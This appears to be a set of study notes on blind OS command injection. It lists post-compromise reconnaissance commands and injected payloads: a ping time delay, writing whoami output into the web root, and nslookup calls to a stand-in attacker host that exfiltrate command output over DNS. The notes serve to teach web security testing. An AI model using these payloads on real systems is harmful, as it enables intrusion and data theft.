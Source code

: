 ### Useful commands
- It is useful to execute some initial commands to obtain information about the system that's been compromised.
 ```
        |-------------------------------------------------------------------|
        |   Purpose of command      |   Linux           |   Windows         |
        |---------------------------|-------------------|-------------------|
        |   Name of current user    |   whoami          |   whoami          |
        |   Operating System        |   uname -a        |   ver             |
        |   Network Configuration   |   ifconfig        |   ipconfig /all   |
        |   Network Connections     |   netstat -an     |   netstat -an     |
        |   Running Processes       |   ps -ef          |   tasklist        |
        |-------------------------------------------------------------------|
```

### Blind OS command injection vulnerabilities
- Many instances of OS command injection are blind vulnerabilities ie the application doesn't return the output from the command within its HTTP response.
- Consider a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side app then generates an email to a site administrator containing the feedback by calling out the `mail` program with the submitted details. 
```
mail -s "I love this website. Great Job!" -aFrom:james@user.net feedback@website.com
```
- The output from the `mail` command is not returned in the application's responses, and so using the `echo` payload would not be effective hence use a variety of other techniques to detect and exploit a vulnerability.

### Detecting blind OS command injection using time delays.
- One can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time the application takes to respond.
- The `ping` command is an effective way as it lets you specify the number of ICMP packets to send and the time taken. ie:
```
& ping -c 10 127.0.0.1 &
```

### Exploiting blind OS command injection by redirecting output
- You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser.
- Eg, if the application serves static resources from the filesystem location `/var/www/static` then one can submit the following input:
```
& whoami > /var/www/static/whoami.txt &
```
- The `>` character sends the output from the `whoami` command to the specified file. 
- You can then use your browser to fetch `https://vulnerablewebsite.com/whoami.txt` to retrieve the file, and view the output from the injected command.

### Exploiting blind OS command injection using out-of-band(OAST) techniques.
- One can use an injected command that will trigger an out-of-band network interaction with a system that you control using OAST techniques such as"
```
& nslookup kgji2ohoyw.web-attacker.com &
```
- This payload uses the `nslookup` command to cause a DNS lookup for the specified domain.
- The attacker can monitor for the specified lookup occurring thereby detect the command was successfully injected.
- The out-of-band channel will also provides an easy way to exfiltrate the output from injected commands:
```
& nslookup 'whoami'.kgji2ohoyw.web-attacker.com &
```